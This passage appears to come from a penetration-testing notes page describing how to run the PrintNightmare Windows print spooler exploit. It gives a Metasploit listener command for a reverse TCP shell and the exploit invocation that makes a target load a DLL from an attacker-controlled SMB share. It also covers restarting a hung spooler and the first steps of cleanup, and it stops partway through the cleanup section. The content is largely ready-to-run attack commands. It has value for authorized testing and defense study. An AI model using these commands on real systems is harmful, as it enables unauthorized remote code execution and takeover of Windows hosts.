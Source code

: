 ##### MSF multi handler

```bash
msfconsole -x "use exploit/multi/handler;\
set payload generic/shell_reverse_tcp;\
set LHOST 172.16.0.137;\
set LPORT 80;\
set ExitOnSession false;\
run -j"
```

#### Run printnightmare

```bash
python3 [MSPAR|MSRPRN|MSRPRN_nobrute].py  'domain/user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

{{% notice warning %}}
From my experience the Spooler services sometimes crashes/hangs and you wont be able to run printnightmare a second time if you don't restart the spooler service. If you don't spawn a new process in the DLL ensure that the first thing you do is restart the spooler service.
{{% /notice %}}

```bash
net stop spooler && net start spooler
```

![](images/run_printnightmare.png)

### Cleanup

#### PowerShell

##### Load PrintManagement PS Module (should be loaded by default on W10)

```PowerShell
Import-Module PrintManagement
```

##### List current print drivers
